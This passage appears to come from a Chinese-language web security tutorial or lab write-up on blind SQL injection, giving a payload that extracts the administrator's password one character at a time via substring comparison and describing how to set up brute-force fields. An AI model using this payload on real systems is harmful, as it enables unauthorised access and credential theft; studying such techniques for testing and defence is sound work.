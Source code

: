 ### 2.12.6. **爆破密码**

```
payload：' and (select substring(password,1,1) from users where username='administrator')='a'--
```



#### 2.12.6.1. **设置爆破字段**

在password后面的1是控制长度，而后面的a是测试的密码中单个字母或数字。

![img](assets/%E5%9B%BE%E7%89%87%2052.png) 

#### 2.12.6.2. **设置爆破参数**

payload1：

![img](assets/%E5%9B%BE%E7%89%87%2053.png) 
